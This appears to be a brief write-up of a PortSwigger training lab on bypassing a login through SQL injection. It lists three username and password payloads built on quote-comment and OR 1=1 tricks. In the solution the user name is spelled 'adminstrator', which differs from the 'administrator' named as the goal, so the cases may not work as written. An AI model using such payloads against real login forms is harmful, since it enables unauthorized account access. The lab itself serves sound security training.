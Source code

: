 # Lab: SQL injection vulnerability allowing login bypass

## Lab's description

This lab contains a SQL injection vulnerability in the login function.

**End gold:** Log in as `administrator` user.

## Solution

Go to My account page and login as adminstrator

Case 1:

`Username: adminstrator
Password: anything' OR 1=1--'
`

Case 2:

`Username: adminstrator'--
Password: anything`

Case 3:


`Username: adminstrator' OR 1=1--
Password: anything`

**Source:** [Lab: Subverting application logic](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-subverting-application-logic/sql-injection/lab-login-bypass#)
